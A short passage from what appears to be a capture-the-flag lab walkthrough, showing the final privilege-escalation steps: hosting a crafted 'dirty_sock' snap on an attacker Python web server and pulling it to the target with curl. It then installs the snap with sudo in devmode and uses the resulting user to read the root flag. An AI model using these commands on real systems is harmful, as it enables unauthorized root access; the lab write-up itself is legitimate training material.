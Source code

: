 ```
EOF

## Build the snap
snapcraft
```

## 12. Copy Crafted Snap to Target
Curl through python simple server

Host
```
sudo python -m http.server 80
```
Target
```
curl 10.10.14.40/dirty_sock.snap > exploit.snap (Crafted Snap)
sudo /usr/bin/snap install /home/brucetherealadmin/exploit.snap --devmode
dirty-sock 0.1 installed
```

## 13. SU dirty_sock
```
su dirty_sock
Password: dirty_sock

cat /root/root.txt
rooted!
```